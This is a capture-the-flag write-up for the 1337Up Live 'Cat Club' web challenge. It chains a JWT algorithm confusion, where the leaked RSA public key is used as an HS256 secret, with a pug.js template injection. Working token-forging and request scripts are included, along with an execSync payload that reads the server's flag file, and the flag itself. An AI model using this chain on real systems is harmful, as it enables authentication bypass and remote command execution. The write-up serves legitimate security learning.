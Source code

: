 # 1337Up Live CTF

## Cat Club

> https://ctfd-status.ctf.intigriti.io/catclub

JWT algorithm confusion & pug.js SSTI.

## Approach

After registering, notice that `/cats` page will displays the user's username, we can find a SSTI vulnerability in the source code.

```js
if (typeof req.user != "undefined") {
  template = template.replace(/guest/g, req.user);
}
```

The regular registration method does not allow non-numeric and alphabetic characters. Consider constructing a JWT token with the username as the payload directly.

`/jwks.json` leaks the publicKey, and the server's function for verifying JWT is:

```js
function signJWT(payload) {
  return new Promise((resolve, reject) => {
    jwt.encode(privateKey, payload, "RS256", (err, token) => {
      if (err) {
        return reject(new Error("Error encoding token"));
      }
      resolve(token);
    });
  });
}

function verifyJWT(token) {
  return new Promise((resolve, reject) => {
    if (!token || typeof token !== "string" || token.split(".").length !== 3) {
      return reject(new Error("Invalid token format"));
    }

    jwt.decode(publicKey, token, (err, payload, header) => {
      if (err) {
        return reject(new Error("Invalid or expired token"));
      }

      if (header.alg.toLowerCase() === "none") {
        return reject(new Error("Algorithm 'none' is not allowed"));
      }

      resolve(payload);
    });
  });
}
```

RSA's private key cannot be obtained, but the above verification has an JWT algorithm confusion vulnerability. We can create a signature using the publicKey and HS256 algorithm by ourselves. At this point, the server's verification logic is still using publicKey to verify, but the algorithm has been specified as HS256, so it can pass. The code to generate the token is:

```js
const fs = require("fs");
const jwt = require("json-web-token");
const jwkToPem = require("jwk-to-pem");

// const publicKey = fs.readFileSync("public_key.pem", "utf8");

const publicKey = jwkToPem({
  kty: "RSA",
  n: "w4oPEx-448XQWH_OtSWN8L0NUDU-rv1jMiL0s4clcuyVYvgpSV7FsvAG65EnEhXaYpYeMf1GMmUxBcyQOpathL1zf3_Jk5IsbhEmuUZ28Ccd8l2gOcURVFA3j4qMt34OlPqzf9nXBvljntTuZcQzYcGEtM7Sd9sSmg8uVx8f1WOmUFCaqtC26HdjBMnNfhnLKY9iPxFPGcE8qa8SsrnRfT5HJjSRu_JmGlYCrFSof5p_E0WPyCUbAV5rfgTm2CewF7vIP1neI5jwlcm22X2t8opUrLbrJYoWFeYZOY_Wr9vZb23xmmgo98OAc5icsvzqYODQLCxw4h9IxGEmMZ-Hdw",
  e: "AQAB",
  alg: "RS256",
  use: "sig",
});

function signJWT(payload) {
  return new Promise((resolve, reject) => {
    jwt.encode(publicKey, payload, "HS256", (err, token) => {
      if (err) {
        return reject(new Error("Error encoding token"));
      }
      resolve(token);
    });
  });
}

signJWT({
  // username: "#{global.process.mainModule.constructor._load('child_process').execSync('ls /').toString()}"
  username:
    "#{global.process.mainModule.constructor._load('child_process').execSync('cat /flag_Gx4wVbEc1fxN9ztM.txt').toString()}",
}).then((token) => {
  console.log(token);
  fs.writeFileSync("token.txt", token);
});
```

Exploit:

```python
import requests

url = f"https://catclub-2.ctf.intigriti.io/cats"

with open("catclub_exp/token.txt") as f:
    token = f.read().strip()
resp = requests.get(url, cookies={"token": token})

# print(resp.text)
print(resp.text.split('alt="Club Logo"></nav></header><div class="content"><h1>')[1])
```

## Flag

```
INTIGRITI{h3y_y0u_c4n7_ch41n_7h053_vuln5_l1k3_7h47}
```
